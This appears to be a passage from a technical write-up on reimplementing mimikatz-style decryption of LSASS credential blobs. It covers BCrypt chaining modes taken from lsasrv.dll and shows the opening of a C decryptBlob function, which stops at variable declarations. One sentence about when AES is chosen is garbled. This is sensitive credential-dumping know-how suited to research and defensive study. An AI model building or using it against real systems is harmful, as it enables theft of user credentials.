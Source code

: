 Here's what we know based on the decomplication of lsasrv.dll

**[BCryptSetProperty](https://learn.microsoft.com/en-us/windows/win32/api/bcrypt/nf-bcrypt-bcryptsetproperty):**

| Field                                                                                                                                     | AES               | 3DES              |
| ----------------------------------------------------------------------------------------------------------------------------------------- | ----------------- | ----------------- |
| [Cryptography Primitive Property Identifier (Bcrypt.h) ](https://learn.microsoft.com/en-us/windows/win32/SecCNG/cng-property-identifiers) | Chaining Mode CFB | Chaining Mode CBC |

The other unique thing that Adam Chester discovered, is when each algorithm is used. He was able to determine that AES is used when the length of the security blob is divisible by 8, AES is used.

So now we can start writing code:

```c

void decryptBlob(const BYTE* blob, SIZE_T blobLen, ENC_KEYS keys) {
	SECURITY_BLOB secBlob = { 0 };
	printKeyBytes(blob, (SIZE_T)blobLen, "BLOB\n");
	///////

	BCRYPT_ALG_HANDLE algAESHandle = 0;
	BCRYPT_ALG_HANDLE algDESHandle = 0;

	BCRYPT_KEY_HANDLE hAESKey;
	BCRYPT_KEY_HANDLE hDESKey;

	ULONG resultLen = 0;

	BYTE ivCopyAES[16];
	memcpy(ivCopyAES, keys.IVKey, 16);

	BYTE ivCopyDES[8];
	memcpy(ivCopyDES, keys.IVKey, 8);

	unsigned char HASH[1024];
	ULONG LenHASH = sizeof(HASH);
	char buf[1024];

	NTSTATUS bcryptResult;
```

We need copies of the IV because when we start decrypting the blobs BCrypt will make changes to the IV.  The IV for AES is 16 bytes.  The IV for DES is 8 bytes which mimikatz confirms.

[mimikatz/mimilib/sekurlsadbg/kuhl_m_sekurlsa_nt6.c at 152b208916c27d7d1fc32d10e64879721c4d06af · gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz/blob/152b208916c27d7d1fc32d10e64879721c4d06af/mimilib/sekurlsadbg/kuhl_m_sekurlsa_nt6.c#L9)
